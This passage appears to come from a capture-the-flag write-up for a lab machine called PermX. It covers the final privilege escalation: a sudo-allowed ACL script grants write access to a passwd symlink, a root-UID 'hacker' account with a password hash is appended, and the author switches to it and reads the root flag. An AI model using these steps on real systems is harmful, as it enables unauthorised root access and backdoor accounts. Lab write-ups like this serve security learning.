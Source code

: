 ```
sudo /opt/acl.sh mtz rwx /home/mtz/passwd_link
```

```
echo 'hacker:$1$9lv4OWpc$q0YYMQMT7CelOkodybXSJ0:0:0:root:/root:/bin/bash' >> /home/mtz/passwd_link
```

```
su hacker
```

and provide the password/////

![PE](./Screenshots/permxpe5.png)

We are **root**.

### Get the root flag

`Root` flag is in the `/root` directory.

![flag](./Screenshots/permxrootflag.png)

Done.

### Paste the flags
